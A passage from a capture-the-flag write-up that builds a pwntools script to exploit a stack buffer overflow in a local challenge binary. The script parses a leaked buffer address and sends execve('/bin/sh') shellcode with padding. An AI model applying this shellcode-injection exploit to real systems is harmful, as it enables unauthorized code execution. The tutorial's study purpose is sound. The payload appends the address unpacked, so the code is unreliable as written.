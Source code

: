 ```py
from pwn import *

p = process('./chall')
line = p.recv()
print "Got : ",line

p.interactive()
```
Run this:
```
➜  python solve.py
[+] Starting local process './chall': pid 10747
Got :  What's this:0xffcad1d8?

[*] Switching to interactive mode
$  
```
Thus we can process the address using the python splicing :
```py
from pwn import *

p = process('./chall')
line = p.recv()
addr = line[len("What's this:"):-2] # after colon, except last two character i.e. ?, '\n' or newline
print "addr:",addr

p.interactive()
```
Run that:
```
➜  python solve.py
[+] Starting local process './chall': pid 11019
addr: 0xffa41818
[*] Switching to interactive mode
$  
```
Now that we have the required address, we can make our final exploit. We need some shellcode, we can craft some ourselves (refer to the link in the end), but for now i am using some shellcode from the internet. [Shellstorm](http://shell-storm.org/shellcode/), we use the [Linux x86 execve('/bin/bash) shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php), as it corresponds to the required architecture. Thus our payload looks like:
> payload = shellcode + "A"*(100-length_of+shellcode) + addr

We can use `p.send()` or `p.sendline()` to feed it to the program:
```py
from pwn import *

p = process('./chall')
line = p.recv()
# the address of the buffer
addr = line[len("What's this:"):-2] # after colon, except last two characters i.e. ?, '\n' or newline
print "addr:", addr
# the shellcode
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
# our payload
payload = shellcode + "A"*(100-len(shellcode)) + addr
# send it!
p.send(payload)

p.interactive()
```
Run it: